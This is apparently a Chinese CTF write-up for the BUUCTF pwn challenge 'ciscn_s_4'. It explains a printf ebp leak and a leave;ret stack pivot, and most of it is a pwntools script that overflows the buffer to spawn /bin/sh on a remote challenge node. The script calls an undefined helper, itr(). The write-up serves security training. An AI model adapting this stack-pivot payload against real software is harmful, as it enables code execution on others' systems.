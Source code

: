 ```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

程序 vuln() 存在栈溢出：

```c
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 48u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

程序有 `system` 无 `/bin/sh`。

第一次 `printf` 可以泄漏 ebp address，从而推断出 s 的起始地址，观察到 vul() 栈溢出之后函数直接返回，可以控制返回地址为 `leave;ret` 做栈迁移。

```py
from pwn import *
from sys import argv

leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

proc = "./ciscn_s_4"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("node5.buuoj.cn", 26439) if argv[1] == 'r' else process(proc)

if args.G:
	gdb.attach(io)

payload1 = b'a' * 36 + b'bbbb'
io.send(payload1)
io.recvuntil(b'bbbb', drop=True)
s_addr = u32(io.recv(4)) - 0x38
leak("s_addr", s_addr)

system_addr = 0x8048400
binsh_addr = s_addr + 12
leave_ret = 0x08048562

payload2 = p32(system_addr) + b'dead' + p32(binsh_addr) + b"/bin/sh\x00"
payload2 += b'c' * (40 - len(payload2))
payload2 += p32(s_addr - 4)
payload2 += p32(leave_ret)
io.sendline(payload2)

itr()

```

考点：printf 不截断导致泄漏、栈溢出、栈迁移